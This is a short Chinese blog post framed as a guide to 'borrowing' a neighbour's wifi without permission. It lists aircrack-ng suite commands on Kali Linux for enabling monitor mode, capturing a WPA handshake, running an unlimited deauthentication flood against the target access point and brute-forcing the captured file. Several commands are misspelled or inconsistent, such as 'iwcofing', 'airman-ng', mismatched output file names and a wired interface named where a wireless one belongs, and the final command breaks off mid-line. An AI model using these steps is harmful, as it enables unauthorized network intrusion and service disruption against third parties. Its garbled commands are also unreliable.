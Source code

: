 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>
查找无线网络：airodump-ng eth0
网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

暴力破解：aircrack-ng outfile1.cap -w /